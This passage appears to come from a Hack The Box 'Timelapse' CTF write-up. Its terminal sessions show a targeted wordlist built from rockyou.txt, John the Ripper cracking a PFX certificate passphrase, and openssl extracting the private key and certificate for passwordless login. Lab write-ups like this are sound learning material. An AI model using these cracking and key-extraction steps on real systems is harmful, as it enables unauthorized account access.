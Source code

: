 
```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pem
Enter Import Password:
```

```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ cat /usr/share/wordlists/rockyou.txt| grep -i legacy | wc -l
182
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ cat /usr/share/wordlists/rockyou.txt| grep -i legacy > wordlist-legacy.txt
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ john --wordlist=./wordlist-legacy.txt legacyy_dev_auth.pfx.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2024-04-01 04:18) 1.851g/s 337.0p/s 337.0c/s 337.0C/s legacy..*legacy09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

To utilize the certificate for authentication, we needed to convert it into two separate files: a `PEM` file and a `CRT` file. However, this process required the passphrase used to create the certificate. To find this passphrase, we performed a targeted password cracking attempt using a customized wordlist from `rockyou.txt` containing variations of the term `legacy`.

Our strategy proved successful, as we managed to crack the passphrase, allowing us to generate the necessary `PEM` and `CRT` files for passwordless authentication.

```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pem
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ openssl rsa -in legacyy_dev_auth.pem -out legacyy_dev_auth2.pem
Enter pass phrase for legacyy_dev_auth.pem:
writing RSA key
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$
```
